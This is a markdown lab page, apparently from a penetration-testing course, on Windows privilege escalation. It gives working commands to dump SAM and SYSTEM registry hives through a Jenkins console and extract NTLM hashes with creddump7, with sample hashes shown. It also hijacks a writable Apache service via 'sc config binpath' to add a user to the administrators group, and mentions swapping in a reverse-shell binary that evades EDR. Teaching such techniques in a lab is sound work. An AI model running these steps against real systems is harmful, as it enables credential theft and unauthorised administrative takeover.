




+++
title = "Windows PE"
weight = 1
+++

## Local Password Hashes
Windows stores local user account password hashes in the Security Accounts Manager or *SAM* registry hive.  
Additionally, there is a key needed to decrypt  the encrypted hashes located in the *System* registry hive.

* Use your Jenkins script console to execute the following two commands
  * `reg.exe save hklm\sam c:\users\richard.f\xampp\sam`
  * `reg.exe save hklm\system c:\users\richard.f\xampp\sys`



These errors are common when using some type of web based shell to execute operating system commands via a scripting language such as Groovyscript.
The short answer is that the *\\* is being processed by the scripting interpreter as code.
You need to escape these characters by prepending them with an additional *\\* character.



Now run both commands with the proper character escaping and this will place a copy of the two registry hive 
files inside the xampp SMB share. You can then use smbclient to download to your attacking machine.



### Extracting hashs with creddump7 
Next we'll use an oldie but a goodie, creddump, to extract the hashes from the SAM!

* Download the *.deb* package.
  *  `wget http://tw.archive.ubuntu.com/ubuntu/pool/universe/c/creddump7/creddump7_0.1+git20190429-1.1_all.deb`
* Install the package
  * `sudo dpkg -i creddump7_0.1+git20190429-1.1_all.deb` 

Now run the following command from inside the directory where you saved **sys** and **sam**.

`/usr/share/creddump7/pwdump.py sys sam > hashes.txt`

##### hashes.txt

```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:fa4621870bd7787de99541e0699e738c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:2620172f5a22c57e5c7a5450e21313b8:::
```

## Enumerating localhost services
Sometimes (acctually lots of the time) when we get on a box we gain access to **localhost** services.  
These are services that aren't bound to **0.0.0.0** so we didn't detect them during our discovery phase.

`netstat -ant | findstr /I "listen"`

```
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:443            0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:3389           0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:8080           0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:49680          0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:49695          0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:49709          0.0.0.0:0              LISTENING       InHost
  TCP    192.168.0.130:139      0.0.0.0:0              LISTENING       InHost
  TCP    [::]:80                [::]:0                 LISTENING       InHost
  TCP    [::]:135               [::]:0                 LISTENING       InHost
  TCP    [::]:443               [::]:0                 LISTENING       InHost
  TCP    [::]:445               [::]:0                 LISTENING       InHost
  TCP    [::]:3389              [::]:0                 LISTENING       InHost
  TCP    [::]:5985              [::]:0                 LISTENING       InHost
  TCP    [::]:8080              [::]:0                 LISTENING       InHost
  TCP    [::]:47001             [::]:0                 LISTENING       InHost
  TCP    [::]:49664             [::]:0                 LISTENING       InHost
  TCP    [::]:49665             [::]:0                 LISTENING       InHost
  TCP    [::]:49666             [::]:0                 LISTENING       InHost
  TCP    [::]:49667             [::]:0                 LISTENING       InHost
  TCP    [::]:49680             [::]:0                 LISTENING       InHost
  TCP    [::]:49695             [::]:0                 LISTENING       InHost
  TCP    [::]:49709             [::]:0                 LISTENING       InHost
  ```

Although we can see that *80* and *443* are bound to **0.0.0.0**, those ports didn't show up on our nmap scan.
Likely due to Windows Defender firewall rules.

If we browse to one of those ports on **127.0.0.1** we can see it appears to be Apache packaged up with XAMPP.



* What is the name of the service?
  *  `sc query | findstr /I "apache"`

      ```
      SERVICE_NAME: Apache2.4
      DISPLAY_NAME: Apache2.4
      ```
* What is the binary path executed when the service starts?
  *  `sc qc apache2.4`

      ```
      [SC] QueryServiceConfig SUCCESS

      SERVICE_NAME: apache2.4
              TYPE               : 10  WIN32_OWN_PROCESS
              START_TYPE         : 2   AUTO_START
              ERROR_CONTROL      : 1   NORMAL
              BINARY_PATH_NAME   : "C:\users\richard.f\xampp\apache\bin\httpd.exe" -k runservice
              LOAD_ORDER_GROUP   :
              TAG                : 0
              DISPLAY_NAME       : Apache2.4
              DEPENDENCIES       : Tcpip
                                 : Afd
              SERVICE_START_NAME : LocalSystem

      ```
The binary executable is located inside the SMB share we have read/write to as "richard.f".  The service is configured 
to run with *LocalSystem* privileges.  Assuming our user has permissions to start and stop the service, we should be 
able to replace *httpd.exe* with a binary of our choosing and elevate our privileges to *LocalSystem*

* Can we stop the service?
  *  `sc query apache2.4`
      ```

      SERVICE_NAME: apache2.4
              TYPE               : 10  WIN32_OWN_PROCESS
              STATE              : 4  RUNNING
                                      (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
              WIN32_EXIT_CODE    : 0  (0x0)
              SERVICE_EXIT_CODE  : 0  (0x0)
              CHECKPOINT         : 0x0
              WAIT_HINT          : 0x0

      ```

It says it accepts shutdown, try it.

`sc stop "apache2.4"`

Now you can use *sc* to set a new binary path.  This could be a path to a reverse shell executable assuming you've got 
one that bypasses the target's EDR.  For a simpler approach, try this.

`sc config apache2.4 binpath= "cmd.exe /c net localgroup administrators sciencerocks\richard.f /add"`

```bash
[SC] ChangeServiceConfig SUCCESS
```

Now start the service again.


## Privilege escalation via Windows Service
For this exercise we'll leverage an RDP connection to **192.168.0.130** with our non-admin AD account.

* Use the *sc* command to check for interesting looking Windows Services
  *  `sc qc`
### Additional privilege escalation resources

Here are some suplimental resources for you to read through outside of class.

* [Fantastic Markdown cheat sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
* [HackTricks - Windows Local Privilege Escalation](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation)
* [FuzzySecurity Windows Priv. Esc. Fundimentals](https://fuzzysecurity.com/tutorials/16.html)
* [Windows Priv. Esc. by Joseph Carson](https://delinea.com/blog/windows-privilege-escalation)
